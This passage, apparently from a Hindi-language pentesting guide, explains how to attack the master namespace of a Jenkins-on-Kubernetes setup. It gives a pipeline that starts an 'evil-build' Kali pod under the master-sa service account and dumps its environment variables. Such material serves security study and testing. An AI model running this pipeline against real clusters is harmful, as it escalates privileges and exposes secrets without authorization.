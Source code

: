 ```bash
```
यदि मास्टर नोड पॉड वर्कर्स के नेमस्पेस के अंदर नहीं चल रहा है, तो आप मास्टर नेमस्पेस को लक्षित करके समान हमले करने का प्रयास कर सकते हैं। हम मान लेते हैं कि इसे _jenkins-master_ कहा जाता है। ध्यान रखें कि सेवा अकाउंट master-sa को _jenkins-master_ नेमस्पेस पर मौजूद होना चाहिए (और _worker-ns_ नेमस्पेस में मौजूद नहीं हो सकता है)।
```groovy
pipeline {
stages {
stage('Process pipeline') {
agent {
kubernetes {
yaml """
metadata:
namespace: jenkins-master
spec:
serviceAccount: master-sa
containers:
- name: evil-build
image: myregistry/mykali_image:1.0
imagePullPolicy: IfNotPresent
command:
- sleep
args:
- 1d
"""
}
}
stages {
stage('Say hello') {
steps {
echo 'Hello from a docker container'
sh 'env'
}
}
}
}
}
}
